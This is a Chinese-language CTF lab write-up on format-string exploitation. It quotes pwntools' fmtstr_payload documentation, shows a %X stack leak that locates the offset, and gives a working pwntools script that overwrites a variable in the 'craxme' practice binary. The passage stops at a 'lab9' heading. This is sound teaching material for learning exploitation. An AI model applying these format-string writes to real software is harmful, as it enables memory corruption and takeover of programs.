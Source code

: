 ```shell  
Makes payload with given parameter. It can generate payload for 32 or 64 bits architectures. The size of the addr is taken from context.bits  
  
The overflows argument is a format-string-length to output-amount tradeoff: Larger values for overflows produce shorter format strings that generate more output at runtime.  
  
    Parameters:	  
        offset (int) – the first formatter’s offset you control  
        writes (dict) – dict with addr, value {addr: value, addr2: value2}  
        numbwritten (int) – number of byte already written by the printf function  
        write_size (str) – must be byte, short or int. Tells if you want to write byte by byte, short by short or int by int (hhn, hn or n)  
        overflows (int) – how many extra overflows (at size sz) to tolerate to reduce the length of the format string  
        strategy (str) – either ‘fast’ or ‘small’ (‘small’ is default, ‘fast’ can be used if there are many writes)  
        Returns:	  
        The payload in order to do needed writes  
```  
  
  
  
主要用到的就是前2个参数：  
  
- offset：第一个格式化字符存放的位置偏移。  
  - 如何得到这个偏移，其实最简单的就是直接%X打印栈，如下  
  
```shell  
# ./crack  
What your name ? aaaa.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X  
Hello ,aaaa.FFAD7FC8.63.0.F7FA3A9C.3.F7F75410.1.0.1.61616161.2E58252E.252E5825.58252E58.2E58252E  
����H���Your password :11  
Goodbyte  
```  
  
格式化字符串第一个字符aaaa其位置通过不停的打印栈可以得到在偏移10(0xa)位置出现，偏移以0开始，便可以直接得到此参数为10。  
  
- **writes**：一个字典，用来写数据，以 {addr: value, addr2: value2,…}将value写入addr位置。  
- numbwritten：如果printf前面还有打印的字符，就需要设置这个参数  
- write_size：写入的大小，是每次单字节写入，还是一次写入双字节，还是一次写入四个字节。  
  
## lab8  
  
格式化字符串, 目的是写大的数字, 可以直接利用`fmtstr_payload`生成payload  
```python  
#codinf=utf-8  
  
from pwn import *  
  
context.terminal = ["tmux", "split", "-h"]  
context.log_level = "debug"  
  
r = process("./craxme")  
gdb.attach(r, """  
        b *0x80485c6  
        c  
""")  
  
r.recvuntil(":")  
magic = 0x804a038  
payload = fmtstr_payload(7, {magic: 0xFACEB00C})  
r.sendline(payload)  
r.interactive()  
```  
## lab9  
  